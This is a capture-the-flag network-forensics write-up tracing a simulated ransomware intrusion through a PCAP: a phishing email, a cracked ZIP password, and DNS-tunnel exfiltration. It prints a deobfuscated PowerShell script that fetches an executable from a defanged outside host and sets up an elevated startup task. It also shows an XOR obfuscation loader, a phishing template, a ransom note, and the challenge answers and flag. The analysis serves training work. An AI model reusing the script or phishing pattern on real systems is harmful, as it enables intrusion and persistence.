

# Alice_In_Rans0ml4nd


## Files

>[!CAUTION]
> Disclaimer : The PCAP file provided in this challenge contains real or simulated malicious payloads (such as executables, scripts, or infected files transferred over the network).
> Use an isolated environment !

>[!NOTE]
> All suspicious/malicious content has been defanged in this WU.

* **esna_AliceInRans0ml4nd.zip** : challenge archive, encrypted
  * Archive password :
      <details>
      <summary>Click to reveal</summary>

      `1_C0ns3nt_;)`

      </details>
* **solve-material/** : folder containing solution material, browse with spoiler alert !

*Note : while this challenge was classified as 'Easy', I would argue it is more 'Medium' or even 'Hard' due to the diverse skills required to solve it (PCAP analysis, email analysis, password cracking, PowerShell deobfuscation, cryptography).*

<details>
<summary>Solution</summary>



## Introduction : Wireshark/network forensics quick wins

There are multiple tips that can help you to quickly identify interesting artifacts in a PCAP file.
As they will be mentioned along this WU, here is a quick list of them : 
* **grep** (with -a option to treat binary files as text), especially with regex (LLM are your friends here)
* **Find a packet** button (Wireshark) to search for strings in packets
* **Follow TCP/UDP stream** feature (Wireshark) to reconstruct conversations and easly watch for cleartext data
* **File -> Export objects** feature (Wireshark) to extract files transferred over HTTP, FTP, SMB, etc.
  * Can also be done using tshark command line tool

## Emails

* A quick win for this task is using grep :
    ```bash
    $ grep -E -an '[A-Za-z0-9._%+-]+@[A-Za-z0-9.-]+\.[A-Za-z]{2,}' chall.pcapng
    4563:To: natacha.routi@alice.corp
    4571:Return-Path: <it-support@alices.corp>
    4572:From: it-support@alices.corp
    10890:   sphinxhelpdesk@sphinxlock.ru
    ```
* We have multiple choices here. Let's dive in the PCAP.
* We find an interesting packet :
    
* When following the TCP stream or opening the extracted `.eml` file, we obtain the following :
    <details>
    <summary>Email</summary>

    ```
    To: natacha.routi@alice.corp
    Content-Transfer-Encoding: quoted-printable
    Received: from mail.alice.corp by Alice.corp (Alice-Corp)
            id h3hvlhkzBteXTAmbr4qz4Pwj0NvpLr4Nq_e2PObs7Vg=@Alice.corp; Sun, 22 Jun 2025 09:27:47 +0200
    Subject: Internal Helpdesk Tool =?utf-8?b?4oCT?= Alice Corp
    Content-Type: text/plain; charset="utf-8"
    MIME-Version: 1.0
    Message-ID: h3hvlhkzBteXTAmbr4qz4Pwj0NvpLr4Nq_e2PObs7Vg=@Alice.corp
    Return-Path: <it-support@alices.corp>
    From: it-support@alices.corp

    Hello,

    The IT department has published a new internal version of the Helpdesk tool. =
    =20
    Please download it using the link below:

    Download link: hxxps://www.dropbox.com/scl/fi/n13dckvawgi8rf50qr6ij/helpdesk.=
    zip?rlkey=3Ddlnvxltgup1wnlesbuiey2fwe&e=3D2&st=3D98676emp&dl=3D1

    Note: The archive is password protected. =20
    It is the common password used internally at Alice Corp to secure ZIP files.

    Do not share this file outside the internal network.

    Best regards, =20
    IT Support =20
    Alice Corp
    ```

    </details>

✅ 1. The email address used by the attacker: `it-support@alices.corp`<br>
✅ 2. The email address targeted within the company: `natacha.routi@alice.corp`

## First malware

* From the previous email, we immediately spot the Dropbox link.
* However, trying to access it directly fails.
* Turns out it is encoded as [Quoted Printable](https://en.wikipedia.org/wiki/Quoted-printable).
* Let's deocde it with [CyberChef](https://gchq.github.io/CyberChef/) :
    
* Here are the changes :
    
* When browsing the link, we may be asked to login, use a soc puppet account if needed.
* We can download the `helpdesk.zip` file.
* However, as stated in the email, it is password protected.
* We try to bruteforce it with John the Ripper :
    ```bash
    $ zip2john helpdesk.zip > helpdesk.hash
    $ john --wordlist=rockyou.txt helpdesk.hash
    Using default input encoding: UTF-8
    Loaded 1 password hash (PKZIP [32/64])
    Will run 2 OpenMP threads
    Note: Passwords longer than 21 [worst case UTF-8] to 63 [ASCII] rejected
    Press 'q' or Ctrl-C to abort, 'h' for help, almost any other key for status
    !!Miley24$$      (helpdesk.zip)     
    1g 0:00:00:01 DONE (2025-10-22 02:23) 0.5291g/s 7589Kp/s 7589Kc/s 7589KC/s !LUM!*#1..*7¡Vamos!
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed
    ```
* ... which gives the password instantly : `!!Miley24$$`
* We can now extract the archive and obtain `helpdesk.exe`.
    ```bash
    $ md5sum helpdesk.exe
    8d8b36683ed095a7eebe4e8c70141bfc  helpdesk.exe
    ```

✅ 3. The MD5 hash of the first malware: `8d8b36683ed095a7eebe4e8c70141bfc`

## Malicious script

* While exploring the PCAP, we spot some explicit ps1 file name :
    
    
* Either by looking at the exported HTTP objects or by exploring the PCAP, we can read its content :
    ```powershell
    $z1 = @(0x13,0x62,0x44,0x52,0x45,0x17,...,0x3d,0x4a,0x3d) # truncated for readability
    $z2 = ""
    foreach ($z3 in $z1) {
        $z2 += [char]($z3 -bxor 0x37)
    }

    Invoke-Expression $z2
    ```
* We craft a [Python script](solve-material/decode-ps1.py) to deobfuscate it. Here is the result :
    <details>
    <summary>deploy-malware.ps1</summary>

    ```powershell
    $User = "alice-corp\administrateur"
    $PasswordPlain = "admin123sY*-+"
    $Pass = ConvertTo-SecureString $PasswordPlain -AsPlainText -Force
    $Cred = New-Object System.Management.Automation.PSCredential($User, $Pass)

    $RemoteHost = "192.168.57.200"

    $RemoteCommand = {
        $exeUrl = "hxxp://susqoUh.ru:8000/susqoUh.exe"
        $exePath = "C:\Windows\Temp\helpdesk.exe"
        $taskName = "DontTouchMe"

        try {
            Invoke-WebRequest -Uri $exeUrl -OutFile $exePath -UseBasicParsing

            $action = New-ScheduledTaskAction -Execute $exePath
            $trigger = New-ScheduledTaskTrigger -AtStartup
            $settings = New-ScheduledTaskSettingsSet -StartWhenAvailable -AllowStartIfOnBatteries -DontStopIfGoingOnBatteries

            Register-ScheduledTask -TaskName $taskName `
                -Action $action `
                -Trigger $trigger `
                -User "alice-corp\administrateur" `
                -Password "admin123sY*-+" `
                -Settings $settings `
                -RunLevel Highest `
                -Force

            Start-ScheduledTask -TaskName $taskName

        } catch {
            Write-Host ""
        }
    }

    try {
        Invoke-Command -ComputerName $RemoteHost -Credential $Cred -ScriptBlock $RemoteCommand -ErrorAction Stop
    } catch {
        Write-Host ""
    }
    ```

    </details>

✅ 4. The domain name contacted to download a script: `ykfqaqa.ru`<br>
✅ 5. The password used to connect to the server: `admin123sY*-+`<br>
✅ 6. The name of the scheduled task that was executed: `DontTouchMe`<br>
✅ 7. The domain name contacted by the script to download the second malware: `susqouh.ru`

## Malware on the server

* We can now search for `susqoUh.exe` in the PCAP or directly browse the downloaded objects for http.
    
* When obtained, we compute its MD5 hash :
    ```bash
    $ md5sum susqoUh.exe
    5d820e7bbb4e4bc266629cadfa474365  susqoUh.exe
    ```

✅ 8. The MD5 hash of the malware present on the server: `5d820e7bbb4e4bc266629cadfa474365`

## Ransom note

* Where could we find traces of ransomware activity ? In a ransom note of course !
* Remember the extra email we found with grep ? Let's search it in the raw PCAP :
    ```bash
    $ grep -ab "sphinxhelpdesk@sphinxlock.ru" chall.pcapng
    5125754:   sphinxhelpdesk@sphinxlock.ru
    ```
* Let's browser around these bytes and extract the text :
    ```bash
    $ tail -c +5125754 chall.pcapng | strings | head -n 15
    sphinxhelpdesk@sphinxlock.ru
    Include in your message:
    - Your unique victim ID: #SPX-3041B
    - Proof of payment
    - 1 encrypted files (max 1MB) for free decryption test
    >>> WARNING:
    If you fail to pay within 72 hours, we will:
    - Start posting confidential files.
    - Sell sensitive corporate data.
    This is your only opportunity to prevent a total data breach.
    We are watching.
    SPHINXLOCK
    notepad
    FieldSet corrupted (this is a bug)C:\Users\sachu\.cargo\registry\src\index.crates.io-1949cf8c6b5b557f\trust-dns-proto-0.22.0\src\xfer\dns_multiplexer.rs
    stream is done: @:
    ```
* After going a few bytes backward, we can extract the full ransom note :
    ```bash
    $ tail -c +5124900 chall.pcapng | strings | head -n 25
    #SPX-3041BidYinxuqab.rukeyfile
    message.txt---[ SPHINXLOCK RANSOMWARE GROUP ]---
    Your network has been compromised and all critical files have been encrypted.
    This includes documents, databases, backups, and internal project files.
    We are SPHINXLOCK 
    specializing in corporate data extraction and ransomware-as-a-service.
    Do NOT attempt to recover your files using third-party tools. Doing so will permanently corrupt them.
    >>> How to restore your files:
    1. Purchase 5000 USD in Monero (XMR) cryptocurrency.
    2. Send the exact amount to the following wallet address:
    84N2hXaVqgS5DzA1FpkGuD98Ex2cVXH6k8RwZ7PmUz1oBY9X6GZYMT3WJYkfY9AdELNH2tsBrxJZcdkLkJxYH5RZ73XKbPq
    3. After payment, email us at:
    sphinxhelpdesk@sphinxlock.ru
    Include in your message:
    - Your unique victim ID: #SPX-3041B
    - Proof of payment
    - 1 encrypted files (max 1MB) for free decryption test
    >>> WARNING:
    If you fail to pay within 72 hours, we will:
    - Start posting confidential files.
    - Sell sensitive corporate data.
    This is your only opportunity to prevent a total data breach.
    We are watching.
    SPHINXLOCK
    notepad
    ```
* Alternatively, after searching the email in packet bytes in Wireshark, we can follow the TCP stream of the second binary extracted and read the ransom note there.
    

✅ 10. The name of the ransomware gang (in lowercase): `sphinxlock`<br>
✅ 11. The cryptocurrency wallet address used by the attackers: `84N2hXaVqgS5DzA1FpkGuD98Ex2cVXH6k8RwZ7PmUz1oBY9X6GZYMT3WJYkfY9AdELNH2tsBrxJZcdkLkJxYH5RZ73XKbPq`


## Data exfiltration

* A common technique used by malware for data exfiltration is DNS tunneling.
* So let's browse the PCAP with this in mind.
* We find some random looking and explicit DNS queries :
    
* These are split in 3 groups : fileX, keyX, and idX.
* Let's grab them easly with some greps :
  * file0
    ```bash
    grep -a -n "yinxuqab.ru" chall.pcapng | strings | grep file | sort -u
    0file0-0-d2373cdd6d999679668b0d4587abbeb325bda034
    0file0-1-3841f3cdb1e4ec8f7b597f75ddde462a9bbefb82
    0file0-2-8318f3bc16af0f52dce3ffbfa34670557bf89ee9
    0file0-3-8ce45da82eb45abd320c4b0a143e2569a6bd8a8f
    file0-4-8d7c0e52a76ff4b4505e82df2c204632
    file0-complete
    ```
    * Complete stream :
        `d2373cdd6d999679668b0d4587abbeb325bda0343841f3cdb1e4ec8f7b597f75ddde462a9bbefb828318f3bc16af0f52dce3ffbfa34670557bf89ee98ce45da82eb45abd320c4b0a143e2569a6bd8a8f8d7c0e52a76ff4b4505e82df2c204632`
  * id0
    ```bash
    grep -a -n "yinxuqab.ru" chall.pcapng | strings | grep id | sort -u
    id-0-235350582d3330343142
    id-complete
    ```
    * Gives just `235350582d3330343142`
    * From hex : `#SPX-3041B`
    * Just the victim ID (seen in ransom note)
  * key0
    ```bash
    grep -a -n "yinxuqab.ru" chall.pcapng | strings | grep key | sort -u
    key-0-3de090e7059fb1d7f77dec50078405c855e3f1a4
    key-1-6589e72db2602c7d7e8403b8
    key-complete
    ```
    * Complete stream :
        `3de090e7059fb1d7f77dec50078405c855e3f1a46589e72db2602c7d7e8403b8`
* Time to decrypt... But how ?
* After ~~torturing~~ asking gently to different LLMs, we find the right prompting approach to ask for common encryption algorithms.
  * It helps us to craft a [decryption script](solve-material/decode-dns.py).
* Turns out it was encrypted using **AES GCM**.
    ```bash
    $ python3 decode-dns.py 
    OFB: ...
    CFB: ...
    GCM: Congratulation this is your final part : DNS_TUNNEL_SUCCESS_C0MPLETE
    ```

✅ 9. The domain name used for data exfiltration: `yinxuqab.ru`<br>
✅ 12. The final flag contained in a file exfiltrated by the malware: `DNS_TUNNEL_SUCCESS_C0MPLETE`

## Final flag

* To avoid messing up copy-paste/flag formatting, we created a [python script](solve-material/craft-flag.py) that generates the final flag from all the previous answers.
* Generated flag:
    `it-support@alices.corp:natacha.routi@alice.corp:8d8b36683ed095a7eebe4e8c70141bfc:ykfqaqa.ru:admin123sY*-+:DontTouchMe:susqouh.ru:5d820e7bbb4e4bc266629cadfa474365:yinxuqab.ru:sphinxlock:84N2hXaVqgS5DzA1FpkGuD98Ex2cVXH6k8RwZ7PmUz1oBY9X6GZYMT3WJYkfY9AdELNH2tsBrxJZcdkLkJxYH5RZ73XKbPq:DNS_TUNNEL_SUCCESS_C0MPLETE`
* Final Flag: `ECW{f68ba371b5fc66c802207b9bedd0838af9d6d7a46085765425d89f80f558b3f9}`

## Conclusion

While this WU may look straightforward, I spent **hours** on this one.
I fell in the rabbithole a few time, e.g. decrypting the winrm traffic (which was not needed). At least I learned how this protocol works !
I learnt a lot on network forensics in general.


</details>